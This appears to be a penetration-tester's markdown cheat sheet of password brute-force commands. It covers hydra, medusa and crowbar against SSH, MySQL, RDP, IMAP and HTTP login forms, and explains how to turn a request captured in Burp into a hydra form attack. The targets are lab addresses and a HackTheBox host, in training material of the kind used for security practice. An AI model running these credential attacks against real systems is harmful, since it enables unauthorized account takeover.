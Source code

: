 ## Brute Force mysql:
--> Note: if you have too many connections, my sql will usually time you out!!!!

```
hydra -t 1 -L usernames.txt -P password.txt 192.168.151.11 mysql
```

## Brute Force ssh:

```
hydra -l root -p admin -s 22222 192.168.151.96 -t 4 ssh
```

## Brute force http protected dir

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

## Brute Force RDP, VNC, SSH

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

## Brute Force with user and password lists RDP:

```
sudo crowbar -b rdp -s 10.11.1.222/32 -U userlist.txt -C pass.txt
```

## SSH attack with Hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

## Http post attack

```
 hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

## Http Authenticated Post Form Attack

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v"
```

## IMAP Brute Force

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
```

## Http Attacks (great detail)

```
https://github.com/gnebbia/hydra_notes
```


## Set Hydra to Point at Burp:
- This can help use burp to figure out if Hydra is sending the correct request

```
# Add
export HYDRA_PROXY=connect://127.0.0.1:8080

# Remove

unset HYDRA_PROXY

```

## Use Hydra to brute force a form from Burp Suite:

- Grab the form you want from Burp here is an example:

```
POST /j_spring_security_check HTTP/1.1
Host: pennyworth.htb:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pennyworth.htb:8080/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://pennyworth.htb:8080
Connection: close
Cookie: JSESSIONID.fe42cd9b=node01ws035f860g0jnuo80vq7lkyn1.node0
Upgrade-Insecure-Requests: 1

j_username=admin&j_password=admin&from=&Submit=Sign+in

```

- Reporduce In Hydra:

```
hydra -I -v -V -s 8080 -L ./user.txt -P pass.txt pennyworth.htb http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:H=User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv%3a109.0) Gecko/20100101 Firefox/119.0:H=Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http%3a//pennyworth.htb%3a8080/login:H=Origin: http%3a//pennyworth.htb%3a8080:H=Upgrade-Insecure-Requests: 1:H=Cookie: JSESSIONID.fe42cd9b=node01ws035f860g0jnuo80vq7lkyn1.node0:S=loginError"


## Parameters:

I: Ignore Prvious Jobs
v: verbose
V: show password guesses
s: Port Number
L: User list file
l: user 
P: Password list file
p: password
pennyworth.htb : webserver name
http[s]-post-form : http[s] form attack, basically grab this from burp as seen above

## Inside url string:
format: URL Location:request body:Optional stuffs:Conditional
"H=" Added header item, note you can do this with cookies as well
"S=" Success string, this string will be in header/body of response to indicate a successful login
"F=" Fail String, if you don't want to use a success string, then use this,  this will indicate a string in header or body of respone that will indicate a failed login.

## NOTES

- Try to Use One user name at a time if possible, if you use a username list then you might miss successful passwords
- 302 Redirect Issue, on some forms when you login you get a 302 redirect to the login page, hydra does not always view this as a successful login since it doesn't seem to read redirect html body, to get around this if you see something like  this in your results when verbose is enabled:
**[VERBOSE] Page redirected to http[s]://pennyworth.htb:8080/**
That means your page was redirected, which could indicate a successful login. The key here is that if you only get one or a few of these after a hydra brute force, you may have the login you need so make sure you check for this. In order to get the password though you might have to do some analysis. For me I set the "F=" fail string to "S=" the sucess string and found the password that wasn't reported as sucessful.
```

